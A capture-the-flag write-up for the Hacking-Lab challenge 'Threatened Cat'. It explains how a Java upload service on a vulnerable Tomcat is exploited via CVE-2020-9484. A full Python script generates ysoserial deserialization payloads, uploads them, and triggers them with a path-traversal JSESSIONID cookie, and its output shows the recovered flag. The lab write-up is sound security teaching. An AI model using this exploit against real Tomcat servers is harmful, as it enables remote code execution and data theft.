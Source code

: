 # HV20.21 Threatened Cat

For this challenge, we get access to a web application, that allows us to upload files. The web application will scan the file (basic content detection, probably implemented using the `file` command) and tell us whether the file is considered dangerous. Our goal is to disclose the flag, which is stored on the server at `/usr/bin/catnip.txt`.

After some basic information gathering, I found out that the application was built in Java (we can see it from the error message when uploading a file that is larger than the allowed limit). From the output of the application, we can see that our files are stored at `/usr/local/uploads/` on the server. My first guess was to upload a JSP file and gain remote code execution, but of course it did not work (honestly this would have been to easy).

As the challenge description already provided the correct path for the flag file, my first assumption was that the application is most likely vulnerable to a local file inclusion attack / path traversal attack. I tried various payloads to mess with both, the upload and the download functionality, but nothing worked out as expected. Moreover, I did some testing for other commonly known attacks like command injection and XXE (XML External Entity) but still was not able to find anything that would be exploitable.

Maybe there is a special reason why this challenge was built in Java. I searched for some more Java-specific attacks and realized that this might also be derialization attack. I tried my luck and generated a malicious serialized Java object created using the [ysoserial](https://github.com/frohoff/ysoserial) tool. Out of the sudden, the output of the application changed: `[W]: Exactly this kind of things is threatening this cat`.

This confirms that I was on the right track, so I tried to create a payload that copies the file with our flag to the publicly accessible folder (`/usr/local/uploads/`). Unfortunately, this did not work so I had to do some research on how this type of attack could work in our scenario. I figured out that maybe my payload was never triggered because nobody yet tried to deserialize the file I provided. After some more googling, I found an interesting [CVE-2020-9484](https://nvd.nist.gov/vuln/detail/CVE-2020-9484) which could help us here.

This CVE describes a [Tomcat](http://tomcat.apache.org/) vulnerability (now the cat focus of the whole challenge finally makes sense). Vulnerable versions of Tomcat would allow an attacker to specify a malicious value for `JSESSIONID` (a filename). The server would then append the `.session` extension to the provided value and try to load (deserialize) the file.

This means that after uploading our exploit payload, we need to send another request with a crafted `JSESSIONID` cookie that points to our uploaded file. Afterwards, Tomcat will deserialize our payload and trigger the exploit. As I was not exactly sure what `ysoserial` payload is the correct one, I created a small [python program](./uploader.py) that uploads each of the payloads, automatically triggers the exploit and then checks if the `catnip.txt` was correctly copied over to the public folder:

```python
#!/usr/bin/env python3

import requests
from os import system
from time import sleep

url = 'https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/'

def upload_file(filename):
    with open(filename, 'rb') as input_file:
        data = input_file.read()

    files = {'file': (filename, data)}

    response = requests.post(url, files=files)
    if not "harmless" in response.text:
        print(f"Valid payload: {filename}")
    else:
        print("Payload not valid")

payloads = ["BeanShell1", "C3P0", "Clojure", "CommonsBeanutils1", "CommonsCollections1", "CommonsCollections2",
    "CommonsCollections3", "CommonsCollections4", "CommonsCollections5", "CommonsCollections6", "FileUpload1",
    "Groovy1", "Hibernate1", "Hibernate2", "JBossInterceptors1", "JRMPClient", "JRMPListener", "JSON1", "JavassistWeld1",
    "Jdk7u21", "Jython1", "MozillaRhino1", "Myfaces1", "Myfaces2", "ROME", "Spring1", "Spring2", "URLDNS", "Wicket1"]

for payload in payloads:
    file = f"payload_{payload}.session"
    system(f"java -jar ysoserial-master-6eca5bc740-1.jar {payload} 'cp /usr/bin/catnip.txt /usr/local/uploads/' > {file} 2>/dev/null")

    # 1. Upload the payload
    upload_file(file)

    # 2. Trigger the exploit
    fake_session_id = f'JSESSIONID=../../../../../usr/local/uploads/payload_{payload}'
    headers = { 'Cookie': fake_session_id }
    print(url + "index.jsp")
    response = requests.get(url + "index.jsp", headers=headers)

    # 3. Check if it worked
    response = requests.get(url + "files/catnip.txt")
    if response.status_code != 404:
        print(response.text)
        exit(0)

    system(f"rm {file}")
    print("------------------------------------------------")
```

Running this script gave me access to the flag. In my case, the first working `ysoserial` payload was `CommonsCollections2`:

```bash
➜  21 git:(main) ✗ ./uploader.py
Valid payload: payload_BeanShell1.session
https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/index.jsp
------------------------------------------------
Valid payload: payload_C3P0.session
https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/index.jsp
------------------------------------------------
Valid payload: payload_Clojure.session
https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/index.jsp
------------------------------------------------
Valid payload: payload_CommonsBeanutils1.session
https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/index.jsp
------------------------------------------------
Valid payload: payload_CommonsCollections1.session
https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/index.jsp
------------------------------------------------
Valid payload: payload_CommonsCollections2.session
https://c1084068-db92-46fc-b937-92858be641c9.idocker.vuln.land/cat/index.jsp
HV20{!D3s3ri4liz4t10n_rulz!}
```

**Flag:** HV20{!D3s3ri4liz4t10n_rulz!}
